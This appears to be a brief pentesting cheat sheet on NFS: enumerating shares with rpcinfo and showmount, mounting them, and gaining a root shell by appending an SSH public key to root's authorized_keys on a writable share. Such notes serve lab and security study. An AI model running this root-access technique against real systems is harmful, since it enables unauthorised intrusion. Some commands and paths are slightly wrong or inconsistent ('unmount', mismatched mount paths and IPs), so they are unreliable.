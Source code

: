 ## Network File System (NFS)
- allows remote access to files over a network
- open standard anybody can implement

### Enumerationg with RPCinfo
Gives services and nfs shares of target
```shell
rpcinfo -p <target-ip>
```

### Showmount
Shows all the shares that are available on the target
```shell
showmount -e <target-ip>
```

### Mounting
```shell
mount -t nfs <target-ip>:/<share> <mount-point>
# mount point is where the share should be mounted to
```

#### Example
```shell
mount -t nfs 192.254.2.35:/ /mnt/nfs
```

### Get Shell over NFS
```shell
#1. create SSH key on local machine
ssh-keygen  
#2. put ssh key to authorized keys at mounted file system
cat ~/.ssh/id_rsa.pub >> ~/mnt/nfs/root/.ssh/authorized_keys #>> appends to file
#3 unmount the share
unmount /mnt/nfs
#4. ssh into it machine
ssh root@192.253.1.35 
```